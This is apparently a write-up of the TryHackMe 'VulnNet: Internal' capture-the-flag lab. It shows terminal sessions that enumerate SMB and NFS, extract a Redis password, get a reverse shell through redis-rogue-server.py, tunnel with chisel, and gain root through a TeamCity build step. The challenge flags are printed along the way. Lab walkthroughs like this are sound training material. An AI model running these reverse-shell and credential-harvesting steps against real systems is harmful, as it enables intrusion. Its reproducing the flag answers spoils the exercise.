





| Category          | Details                                                         |
|-------------------|-----------------------------------------------------------------|
| 📝 **Name**       | [VulnNet: Internal](https://tryhackme.com/room/vulnnetinternal) |  
| 🏷 **Type**       | THM Challenge                                                   |
| 🖥 **OS**         | Linux                                                           |
| 🎯 **Difficulty** | Easy                                                            |
| 📁 **Tags**       | SMB, Redis, redis-rogue-server.py, TeamCity, cmd build step     |

## Task 1: VulnNet: Internal

### What is the services flag? (services.txt)

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-03 15:44 +0100
Nmap scan report for 10.80.176.231
Host is up (0.043s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8b:6c:35:2e:0a:d8:94:a8:2b:a0:6e:28:be:cc:62:99 (RSA)
|   256 d0:d3:34:ca:5c:7f:64:ae:a6:f0:42:13:a9:17:a9:05 (ECDSA)
|_  256 58:08:a0:ca:6c:f4:bf:ee:13:8d:39:1b:35:db:b4:ff (ED25519)
111/tcp   open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      39495/tcp6  mountd
|   100005  1,2,3      47348/udp   mountd
|   100005  1,2,3      51491/udp6  mountd
|   100005  1,2,3      59853/tcp   mountd
|   100021  1,3,4      42222/udp6  nlockmgr
|   100021  1,3,4      43169/udp   nlockmgr
|   100021  1,3,4      43557/tcp6  nlockmgr
|   100021  1,3,4      45137/tcp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp   open     netbios-ssn Samba smbd 4
445/tcp   open     netbios-ssn Samba smbd 4
873/tcp   open     rsync       (protocol version 31)
2049/tcp  open     nfs         3-4 (RPC #100003)
6379/tcp  open     redis       Redis key-value store
9090/tcp  filtered zeus-admin
33009/tcp open     java-rmi    Java RMI
44895/tcp open     mountd      1-3 (RPC #100005)
45137/tcp open     nlockmgr    1-4 (RPC #100021)
50481/tcp open     mountd      1-3 (RPC #100005)
59853/tcp open     mountd      1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2026-02-03T14:44:45
|_  start_date: N/A
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.25 seconds
```

#### Enumerate SMB
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ smbmap -H $TARGET --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.80.176.231:445       Name: 10.80.176.231             Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        shares                                                  READ ONLY       VulnNet Business Shares
        IPC$                                                    NO ACCESS       IPC Service (ip-10-80-169-141 server (Samba, Ubuntu))
```

#### Enumerate `shares` share
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ smbclient \\\\$TARGET\\shares
Password for [WORKGROUP\magicrc]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb  2 10:20:09 2021
  ..                                  D        0  Tue Feb  2 10:28:11 2021
  temp                                D        0  Sat Feb  6 12:45:10 2021
  data                                D        0  Tue Feb  2 10:27:33 2021

                15376180 blocks of size 1024. 2158640 blocks available
smb: \> cd temp
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 12:45:10 2021
  ..                                  D        0  Tue Feb  2 10:20:09 2021
  services.txt                        N       38  Sat Feb  6 12:45:09 2021

                15376180 blocks of size 1024. 2158640 blocks available
smb: \temp\> get services.txt 
getting file \temp\services.txt of size 38 as services.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```

#### Capture services flag
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ cat services.txt 
THM{0a09d51e488f5fa105d8d866a497440a}
```

### What is the internal flag? ("internal flag")

#### List mounts target NFS server
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ showmount -e $TARGET
Export list for 10.80.176.231:
/opt/conf *
```

#### Mount unsecured `/opt/conf`
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ mkdir conf && sudo mount -t nfs $TARGET://opt/conf conf
```

#### List content of mounted `/opt/conf`
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ tree conf                                                                                              
conf
├── hp
│   └── hplip.conf
├── init
│   ├── anacron.conf
│   ├── lightdm.conf
│   └── whoopsie.conf
├── opt
├── profile.d
│   ├── bash_completion.sh
│   ├── cedilla-portuguese.sh
│   ├── input-method-config.sh
│   └── vte-2.91.sh
├── redis
│   └── redis.conf
├── vim
│   ├── vimrc
│   └── vimrc.tiny
└── wildmidi
    └── wildmidi.cfg

8 directories, 12 files
```

#### Discover Redis password `/opt/conf/redis/redis.conf`
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ cat conf/redis/redis.conf | grep -v \# | grep requirepass
requirepass "B65Hx562F@ggAZ@F"
```

#### Capture internal flag
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ redis-cli -h $TARGET
10.80.176.231:6379> AUTH B65Hx562F@ggAZ@F
OK
10.80.176.231:6379> SCAN 0
1) "0"
2) 1) "int"
   2) "internal flag"
   3) "authlist"
   4) "tmp"
   5) "marketlist"
10.80.176.231:6379> GET "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"
```

### What is the user flag? (user.txt)

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ nc -lvnp 4444               
listening on [any] 4444 ...
```

#### Use `redis-rogue-server.py` to spawn reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ cd ~/Tools/redis/redis-rogue-server && \
./redis-rogue-server.py --rhost=$TARGET --lhost=$LHOST --passwd=B65Hx562F@ggAZ@F
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 10.80.176.231:6379
[info] SERVER 192.168.130.56:21000
[info] Setting master...
[info] Authenticating...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 192.168.130.56
Reverse server port: 4444
[info] Reverse shell payload sent.
[info] Check at 192.168.130.56:4444
[info] Unload module...
```

#### Confirm foothold gained
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ nc -lvnp 4444               
listening on [any] 4444 ...
connect to [192.168.130.56] from (UNKNOWN) [10.80.176.231] 46456
id
uid=112(redis) gid=123(redis) groups=123(redis) 
```

#### Discover `TeamCity` CI/CD running as `root`
```
ps aux
<SNIP>
root        1565 20.0  6.8 2975916 270036 ?      Sl   12:34   0:36 /usr/lib/jvm/java-11-openjdk-amd64/bin/java -ea -Xmx384m -Dteamcity_logs=../logs/ -Dlog4j.configuration=file:../conf/teamcity-agent-log4j.xml -classpath /TeamCity/buildAgent/lib/server-logging.jar:/TeamCity/buildAgent/lib/idea-settings.jar:/TeamCity/buildAgent/lib/launcher.jar:/TeamCity/buildAgent/lib/jdk-searcher.jar:/TeamCity/buildAgent/lib/messages.jar:/TeamCity/buildAgent/lib/agent-installer-ui.jar:/TeamCity/buildAgent/lib/duplicator-util.jar:/TeamCity/buildAgent/lib/patches.jar:/TeamCity/buildAgent/lib/xml-rpc-wrapper.jar:/TeamCity/buildAgent/lib/agent-openapi.jar:/TeamCity/buildAgent/lib/agent.jar:/TeamCity/buildAgent/lib/processesTerminator.jar:/TeamCity/buildAgent/lib/commons-codec.jar:/TeamCity/buildAgent/lib/buildAgent-updates-applying.jar:/TeamCity/buildAgent/lib/xstream-1.4.11.1-custom.jar:/TeamCity/buildAgent/lib/jaxen-1.1.1.jar:/TeamCity/buildAgent/lib/xercesImpl.jar:/TeamCity/buildAgent/lib/log4j-1.2.12-json-layout.jar:/TeamCity/buildAgent/lib/jdom.jar:/TeamCity/buildAgent/lib/app-wrapper.jar:/TeamCity/buildAgent/lib/joda-time.jar:/TeamCity/buildAgent/lib/slf4j-log4j12-1.7.5.jar:/TeamCity/buildAgent/lib/ehcache-1.7.2.jar:/TeamCity/buildAgent/lib/commons-compress-1.20.jar:/TeamCity/buildAgent/lib/log4j-1.2.12.jar:/TeamCity/buildAgent/lib/xz-1.8.jar:/TeamCity/buildAgent/lib/coverage-report.jar:/TeamCity/buildAgent/lib/commons-httpclient-3.1.jar:/TeamCity/buildAgent/lib/serviceMessages.jar:/TeamCity/buildAgent/lib/slf4j-api-1.7.5.jar:/TeamCity/buildAgent/lib/patches-impl.jar:/TeamCity/buildAgent/lib/agent-launcher.jar:/TeamCity/buildAgent/lib/commons-collections-3.2.2.jar:/TeamCity/buildAgent/lib/cloud-shared.jar:/TeamCity/buildAgent/lib/common.jar:/TeamCity/buildAgent/lib/agent-upgrade.jar:/TeamCity/buildAgent/lib/agent-configurator.jar:/TeamCity/buildAgent/lib/spring.jar:/TeamCity/buildAgent/lib/commons-io-1.3.2.jar:/TeamCity/buildAgent/lib/common-runtime.jar:/TeamCity/buildAgent/lib/trove-3.0.3.jar:/TeamCity/buildAgent/lib/common-impl.jar:/TeamCity/buildAgent/lib/util.jar:/TeamCity/buildAgent/lib/nuget-utils.jar:/TeamCity/buildAgent/lib/xpp3-1.1.4c.jar:/TeamCity/buildAgent/lib/commons-beanutils-core.jar:/TeamCity/buildAgent/lib/inspections-util.jar:/TeamCity/buildAgent/lib/trove4j.jar:/TeamCity/buildAgent/lib/spring-scripting/spring-scripting-bsh.jar:/TeamCity/buildAgent/lib/spring-scripting/spring-scripting-groovy.jar:/TeamCity/buildAgent/lib/spring-scripting/spring-scripting-jruby.jar:/TeamCity/buildAgent/lib/coverage-agent-common.jar:/TeamCity/buildAgent/lib/ehcache-1.6.0-patch.jar:/TeamCity/buildAgent/lib/runtime-util.jar:/TeamCity/buildAgent/lib/openapi.jar:/TeamCity/buildAgent/lib/resources_en.jar:/TeamCity/buildAgent/lib/xmlrpc-2.0.1.jar:/TeamCity/buildAgent/lib/launcher-api.jar:/TeamCity/buildAgent/lib/freemarker.jar:/TeamCity/buildAgent/lib/commons-logging.jar:/TeamCity/buildAgent/lib/gson.jar:/TeamCity/buildAgent/lib/annotations.jar jetbrains.buildServer.agent.AgentMain -file ../conf/buildAgent.properties -launcher.version 85899
<SNIP>
```

#### Discover `TeamCity` URL and `Super user` authentication token in `Tomcat` logs
```
cat /TeamCity/logs/catalina.out
<SNIP>
TeamCity initialized, server UUID: 61907dff-244c-4220-b252-31de83974909, URL: http://localhost:8111
TeamCity is running in professional mode
[TeamCity] Super user authentication token: 8491453116305916415 (use empty username with the token as the password to access the server)
```
Since `TeamCity` is bounded to loopback interface, we will need to use `chisel` to forward network traffic. If we be able to use discovered `Super user` authentication token, we could create command line execution build step to spawn `root` reverse shell connection.

#### Run `chisel` on attacker machine 
```
┌──(magicrc㉿perun)-[~/attack/THM VulnNet: Internal]
└─$ chisel server -p 9090 --reverse
2026/02/05 12:42:27 server: Reverse tunnelling enabled
2026/02/05 12:42:27 server: Fingerprint PTdaOKWqH6dwGv8h8eehhCYNXcOA1dyFLZ0dCOw3tyM=
2026/02/05 12:42:27 server: Listening on http://0.0.0.0:9090
```

#### Use `chisel` to forward traffic
```
nohup ./chisel client 192.168.130.56:9090 R:8111:127.0.0.1:8111 &
2026/02/05 13:14:36 client: Connecting to ws://192.168.130.56:9090
2026/02/05 13:14:36 client: Connected (Latency 38.637766ms)
```

#### Login to `TeamCity` as `Super user`


#### Create project




#### Create `Command Line` build step for reverse shell spawning


#### Start `nc` to listen for reverse `root` shell connection
```
┌──(magicrc㉿perun)-[~/Tools/redis/redis-rogue-server]
└─$ nc -lvnp 5555
listening on [any] 5555 ..
```

#### Build to execute reverse `root` shell spawner


#### Confirm escalation to `root` user
```
connect to [192.168.130.56] from (UNKNOWN) [10.80.176.231] 56932
bash: cannot set terminal process group (698): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-80-176-231:/TeamCity/buildAgent/work/2b35ac7e0452d98f# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-80-176-231:/TeamCity/buildAgent/work/2b35ac7e0452d98f#
```

#### Capture user flag
```
root@ip-10-80-176-231:~# cat /home/sys-internal/user.txt
THM{da7c20696831f253e0afaca8b83c07ab}
```

### What is the root flag? (root.txt)

#### Capture root flag
```
root@ip-10-80-176-231:~# cat /root/root.txt
THM{e8996faea46df09dba5676dd271c60bd}
```
